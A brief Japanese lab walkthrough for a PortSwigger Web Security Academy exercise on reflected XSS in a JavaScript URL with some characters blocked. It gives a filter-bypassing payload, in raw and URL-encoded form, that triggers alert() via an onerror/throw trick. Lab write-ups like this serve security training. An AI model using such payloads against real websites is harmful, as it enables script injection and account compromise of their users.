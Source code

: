 # 一部の文字がブロックされた URL に XSS を反映

以下のハッキングラボを実施します  
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

- 1. ハッキングラボにアクセスします
- 2. 任意のブログにアクセスします
- 3. 以下スクリプトを URL エンコーディングします

```js
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

- 4. URL の後ろに以下のエンコーディングしたスクリプトを付加します

```
%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

- 5. 画面下部の Back to blog を押すとアラートが表示され、スクリプト実行が確認できます
